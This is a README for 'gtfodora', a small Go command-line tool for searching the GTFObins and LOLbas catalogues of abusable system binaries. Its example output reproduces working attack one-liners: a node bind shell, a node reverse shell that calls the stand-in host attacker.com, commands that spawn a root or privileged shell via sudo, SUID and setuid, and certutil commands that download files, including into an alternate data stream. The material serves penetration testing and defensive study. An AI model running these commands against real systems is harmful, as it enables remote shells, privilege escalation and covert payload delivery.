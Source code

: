 # Gtfodora
Explorer for GTFObins and LOLbas content.

The main purpose of this small tool is to give a CLI interface to the amazing [GTFObins](https://gtfobins.github.io/) and [LOLbas](https://lolbas-project.github.io/) projects.

The way `gtfodora` accomplishes this is quite dumb, it clones the repositories for the two sites and parses the `.yml` files, similarly to what the static site generator does.

## Disclaimer

I used this project to learn GO, or at least to get started with it. The code is probably bad, and there are several improvements that can be made. Please be forgiving and feel free to open PRs.

## Usage

```bash
Usage of ./gtfodora:
  -clone-path string
    	The path in which to clone the gtfobin and lolbas repos, defaults to "/tmp" (default ".")
  -f string
    	Filter the search only for the specified function
  -list-all
    	List all the binaries in the collection
  -list-functions
    	List the functions for the binaries
  -s string
    	Search for the binary specified and prints its details
  -unix
    	Filter the search among only unix binaries (i.e., gtfobin)
  -win
    	Filter the search among only windows binaries (i.e, lolbas)
```

The `-clone-path` defaults to `/tmp` and represents the directory in which the repositories will be cloned.
The `-list-all` and `-list-functions` print, respectively, all the binaries (both Unix and Windows) and all the functions that are available (i.e., "Download File" or "Execute").
The `-unix` and `-win` switches can be used together with all the other commands and will filter the results for GTFObins or LOLbas only, respectively.
The `-s` and `-f` can be used to search for specific binaries (-s), binaries that allow a certain function (-f) or to get the information on how a function is performed by a specific binary (combined).

At every execution the binary is run will try to clone and pull the repositories, so that the information is up-to-date.

## Examples

List all the functions for GTFObins:

```bash
./gtfodora -clone-path . -list-functions -unix
Functions available:
	Shell
	FileUpload
	FileDownload
	FileWrite
	FileRead
	LibraryLoad
	Sudo
	NonInteractiveReverseShell
	Command
	BindShell
	SUID
	LimitedSUID
	ReverseShell
	NonInteractiveBindShell
	Capabilities
```

Search for all the binaries that can perform the 'BindShell' function:

```bash
./gtfodora -f BindShell          
List of all the binaries with function BindShell:
nc
node
socat
```

Get the details of how a binary can accomplish the BindShell function:

```bash
./gtfodora -f BindShell -s node
The binary node allows to perform function BindShell.
Description:

Run `nc target.com 12345` on the attacker box to connect to the shell.
Code:

export LPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
require("net").createServer(function (client) {
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
}).listen(process.env.LPORT);'
```

Get all the details about a specific binary:

```bash
./gtfodora -s node             
Information about: node
--------------------------------
Shell:
- Code:
node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'

--------------------------------
Sudo:
- Code:
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'

--------------------------------
Bind Shell:
- Description:
Run `nc target.com 12345` on the attacker box to connect to the shell.
- Code:
export LPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
require("net").createServer(function (client) {
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
}).listen(process.env.LPORT);'

--------------------------------
SUID:
- Code:
./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]});'

--------------------------------
Reverse Shell:
- Description:
Run `nc -l -p 12345` on the attacker box to receive the shell.
- Code:
export RHOST=attacker.com
export RPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
net.connect(process.env.RPORT, process.env.RHOST, function () {
  this.pipe(sh.stdin);
  sh.stdout.pipe(this);
  sh.stderr.pipe(this);
});'

--------------------------------
Capabilities:
- Code:
./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'
```

Do the same, for a Windows binary: 

```bash
./gtfodora -s Certutil.exe
Information about: Certutil.exe
--------------------------------
Download:
- Description:
Download and save 7zip to disk in the current folder.
- Code:
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
--------------------------------
Download:
- Description:
Download and save 7zip to disk in the current folder.
- Code:
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
--------------------------------
ADS:
- Description:
Download and save a PS1 file to an Alternate Data Stream (ADS).
- Code:
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
--------------------------------
Encode:
- Description:
Command to encode a file using Base64
- Code:
certutil -encode inputFileName encodedOutputFileName
--------------------------------
Decode:
- Description:
Command to decode a Base64 encoded file.
- Code:
certutil -decode encodedInputFileName decodedOutputFileName
```
